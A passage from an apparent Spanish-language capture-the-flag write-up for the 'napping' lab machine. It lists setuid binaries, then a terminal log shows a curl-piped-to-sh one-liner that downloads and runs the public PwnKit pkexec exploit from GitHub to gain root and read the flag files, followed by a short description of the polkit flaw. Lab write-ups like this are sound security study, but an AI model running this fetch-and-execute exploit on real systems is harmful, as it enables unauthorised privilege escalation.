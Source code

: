 ```
  37   │ ./snap/snapd/23545/usr/lib/snapd/snap-confine
  38   │ ./usr/lib/policykit-1/polkit-agent-helper-1
  39   │ ./usr/lib/eject/dmcrypt-get-device
  40   │ ./usr/lib/openssh/ssh-keysign
  41   │ ./usr/lib/snapd/snap-confine
  42   │ ./usr/lib/dbus-1.0/dbus-daemon-launch-helper
  43   │ ./usr/bin/umount
  44   │ ./usr/bin/mount
  45   │ ./usr/bin/gpasswd
  46   │ ./usr/bin/passwd
  47   │ ./usr/bin/chfn
  48   │ ./usr/bin/su
  49   │ ./usr/bin/pkexec
  50   │ ./usr/bin/chsh
  51   │ ./usr/bin/sudo
  52   │ ./usr/bin/fusermount
  53   │ ./usr/bin/newgrp
  54   │ daniel@napping:/$ cd /tmp
  55   │ daniel@napping:/tmp$ sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/ma
       │ in/PwnKit.sh)"
  56   │ root@napping:/tmp# ls
  57   │ snap.lxd                                                                        systemd-p
       │ rivate-302a9e4272c84b19824408d9d79c764a-systemd-resolved.service-6QKUWi
  58   │ systemd-private-302a9e4272c84b19824408d9d79c764a-apache2.service-M4uycj         systemd-p
       │ rivate-302a9e4272c84b19824408d9d79c764a-systemd-timesyncd.service-5tW4mh
  59   │ systemd-private-302a9e4272c84b19824408d9d79c764a-systemd-logind.service-MMgRoi
  60   │ root@napping:/tmp# cd /home/
  61   │ root@napping:/home# ls
  62   │ adrian  daniel
  63   │ root@napping:/home# cd adrian
  64   │ root@napping:/home/adrian# cat user.txt 
  65   │ You are nearly there!
  66   │ root@napping:/home/adrian# cd /root/
  67   │ .cache/ .ssh/   snap/   
  68   │ root@napping:/home/adrian# cd /root/
  69   │ .cache/ .ssh/   snap/   
  70   │ root@napping:/home/adrian# cd /root/
  71   │ root@napping:~# ls
  72   │ del_links.py  del_users.py  nap.py  root.txt  snap
  73   │ root@napping:~# cat root.txt
  74   │ Admins just can't stay awake tsk tsk tsk
  75   │ root@napping:~# exit
```

y nos volvemos root gracias a pkexec


Se encontró una vulnerabilidad de escalada de privilegios local en la utilidad pkexec de polkit. La aplicación pkexec es una herramienta setuid diseñada para permitir a usuarios sin privilegios ejecutar comandos como usuarios privilegiados de acuerdo con políticas predefinidas. La versión actual de pkexec no maneja correctamente el recuento de parámetros de llamada y termina intentando ejecutar variables de entorno como comandos
